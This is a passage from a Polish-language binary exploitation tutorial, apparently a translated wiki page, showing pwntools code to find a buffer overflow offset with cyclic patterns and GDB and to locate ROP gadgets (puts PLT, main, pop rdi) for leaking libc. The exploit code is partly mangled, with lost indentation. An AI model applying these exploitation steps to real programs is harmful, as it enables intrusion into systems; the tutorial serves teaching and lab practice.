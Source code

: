 Szablon potrzebuje offsetu przed kontynuowaniem exploitacji. Jeśli jakikolwiek zostanie podany, wykona niezbędny kod, aby go znaleźć (domyślnie `OFFSET = ""`):
```bash
###################
### Find offset ###
###################
OFFSET = ""#"A"*72
if OFFSET == "":
gdb.attach(p.pid, "c") #Attach and continue
payload = cyclic(1000)
print(r.clean())
r.sendline(payload)
#x/wx $rsp -- Search for bytes that crashed the application
#cyclic_find(0x6161616b) # Find the offset of those bytes
return
```
**Wykonaj** `python template.py`, a konsola GDB zostanie otwarta z programem, który uległ awarii. Wewnątrz tej **konsoli GDB** wykonaj `x/wx $rsp`, aby uzyskać **bajty**, które miały nadpisać RIP. Na koniec uzyskaj **offset** używając konsoli **python**:
```python
from pwn import *
cyclic_find(0x6161616b)
```
![](<../../../../../images/image (140).png>)

Po znalezieniu offsetu (w tym przypadku 40) zmień zmienną OFFSET wewnątrz szablonu, używając tej wartości.\
`OFFSET = "A" * 40`

Innym sposobem byłoby użycie: `pattern create 1000` -- _wykonaj do ret_ -- `pattern seach $rsp` z GEF.

## 2- Znajdowanie Gadżetów

Teraz musimy znaleźć gadżety ROP w binarnym pliku. Te gadżety ROP będą przydatne do wywołania `puts`, aby znaleźć używaną **libc**, a później do **uruchomienia ostatecznego exploit**.
```python
PUTS_PLT = elf.plt['puts'] #PUTS_PLT = elf.symbols["puts"] # This is also valid to call puts
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]

log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
```
`PUTS_PLT` jest potrzebny do wywołania **funkcji puts**.\
`MAIN_PLT` jest potrzebny do ponownego wywołania **funkcji main** po jednej interakcji, aby **wykorzystać** przepełnienie **ponownie** (nieskończone rundy eksploatacji). **Jest używany na końcu każdego ROP, aby ponownie wywołać program**.\
**POP_RDI** jest potrzebny do **przekazania** **parametru** do wywoływanej funkcji.
